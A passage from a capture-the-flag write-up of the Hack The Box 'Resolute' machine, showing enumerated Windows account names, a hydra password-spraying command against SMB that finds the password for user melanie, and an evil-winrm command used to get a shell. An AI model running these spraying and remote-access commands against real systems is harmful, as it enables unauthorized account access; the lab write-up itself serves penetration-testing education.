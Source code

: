 ```
index: 0x10b2 RID: 0x19cc acb: 0x00000010 Account: sally    Name: (null)    Desc: (null)
index: 0x10c2 RID: 0x2777 acb: 0x00000010 Account: simon    Name: (null)    Desc: (null)
index: 0x10bb RID: 0x19d5 acb: 0x00000010 Account: steve    Name: (null)    Desc: (null)
index: 0x10b8 RID: 0x19d2 acb: 0x00000010 Account: stevie   Name: (null)    Desc: (null)
index: 0x10af RID: 0x19c9 acb: 0x00000010 Account: sunita   Name: (null)    Desc: (null)
index: 0x10b7 RID: 0x19d1 acb: 0x00000010 Account: ulf  Name: (null)    Desc: (null)
index: 0x10c1 RID: 0x2776 acb: 0x00000010 Account: zach Name: (null)    Desc: (null)

```


So We have bunch of usernames and one password, Lets check of which user it is.

```
root@kali:~/htb/resolute$ hydra -L users.txt -p Welcome123! 10.10.10.169 smb
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-06 20:14:01
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 1 task per 1 server, overall 1 task, 27 login tries (l:27/p:1), ~27 tries per task
[DATA] attacking smb://10.10.10.169:445/
[445][smb] host: 10.10.10.169   login: melanie   password: Welcome123!
[STATUS] 25.00 tries/min, 25 tries in 00:01h, 2 to do in 00:01h, 1 active
[STATUS] 12.50 tries/min, 25 tries in 00:02h, 2 to do in 00:01h, 1 active
[STATUS] 8.33 tries/min, 25 tries in 00:03h, 2 to do in 00:01h, 1 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-06 20:17:38


```



## Initial Foothold

Now that we have the username/password *melanie/Welcome123!*, we’ll use the [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) script to gain an initial foothold on the box.


```
root@kali:~/htb/resolute$ evil-winrm -i 10.10.10.169 -u melanie -p Welcome123!'
```

We get a shell!

![alt text](https://raw.githubusercontent.com/VitthalS/VitthalS.github.io/master/writeups/resolute/user.png)

Grab the user.txt flag.
